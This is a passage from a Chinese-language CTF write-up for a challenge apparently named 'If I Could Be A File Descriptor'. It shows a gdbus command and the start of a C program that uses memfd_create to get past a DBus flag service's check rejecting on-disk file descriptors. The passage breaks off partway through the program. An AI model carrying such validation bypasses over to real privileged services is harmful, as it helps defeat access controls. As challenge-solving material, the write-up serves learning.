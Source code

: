 ### If I Could Be A File Descriptor

由于一般 DBus 都是基于 UNIX socket 传输，因此它也支持帮忙传递文件描述符。虽然 DBus 也支持 TCP，但是似乎几乎没有人这么用。（题外话，传递文件描述符也是 Wayland 协议必备的部分，因此它不像 X 那样有着网络透明性的性质，毕竟你没法通过 TCP/UDP 传递文件描述符这种东西）

如果只是单纯传递文件描述符，那么使用 gdbus 可以简单地实现：

```sh
#!/bin/bash

echo "Please give me flag2" > /dev/shm/test

gdbus call --system \
           --dest cn.edu.ustc.lug.hack.FlagService \
           --object-path /cn/edu/ustc/lug/hack/FlagService \
           --method cn.edu.ustc.lug.hack.FlagService.GetFlag2 \
           10 10</dev/shm/test
```

但是代码中有这样一个检测：

```c
// Validate the fd is NOT on filesystem
gchar path[1024];
g_snprintf(path, sizeof(path), "/proc/self/fd/%d", fd);
gchar *link = g_file_read_link(path, NULL);
if (link != NULL) {
  if (g_strstr_len(link + 1, -1, "/") != 0) {
    return respond_error_msg(
        invocation, "Please don't give me a file on disk to trick me!");
  }
} else {
  return respond_error_msg(invocation, "Readlink of given FD failed.");
}
```

绕过的方法有很多，本文给出使用 `memfd_create()` 在内存中创建匿名文件的方法。发送请求使用 glib 的 `g_dbus_connection_call_with_unix_fd_list_sync()` 方法。

```c
#define _GNU_SOURCE
#include <gio/gio.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

#define DEST "cn.edu.ustc.lug.hack.FlagService"
#define OBJECT_PATH "/cn/edu/ustc/lug/hack/FlagService"
#define METHOD "GetFlag2"
#define INTERFACE "cn.edu.ustc.lug.hack.FlagService"

int main() {
    GError *error = NULL;
    GDBusConnection *connection;
    GVariant *result;

    // Open and acquire its file descriptor
    int fd = memfd_create("demo_memfd", MFD_CLOEXEC);
    if (fd < 0) {
        perror("Failed to open text");
        return EXIT_FAILURE;
    }
    const char contents[] = "Please give me flag2\n";
    write(fd, contents, sizeof(contents));
    lseek(fd, 0, SEEK_SET);
```